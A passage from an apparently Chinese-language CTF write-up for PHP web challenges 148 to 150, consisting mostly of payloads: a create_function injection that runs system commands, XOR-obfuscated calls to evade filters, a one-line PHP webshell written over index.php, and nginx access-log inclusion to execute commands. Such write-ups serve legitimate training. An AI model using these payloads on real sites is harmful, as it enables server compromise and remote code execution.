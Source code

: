 这样一来，我们想要执行的代码就会执行

payload

```
GET ?show=;};system('grep flag flag.php');/*
POSOT ctf=%5ccreate_function
```

# 148 异或

payload

```
code=("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%09%01%03%01%06%02"^"%7d%60%60%21%60%28");
```

预期解：

```
code=$哈="`{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
```

# 149 scandir unlink

> scandir()：列出参数目录内所有的文件
>
> unlink(): 删除文件

文件覆盖

payload

```
ctf=index.php
show=<?php eval($_POST[1]);?>
```

# 150 NGINX日志，文件包含

```
get /?isVIP=1
post ctf=/var/log/nginx/access.log&1=system('tac f*');
```

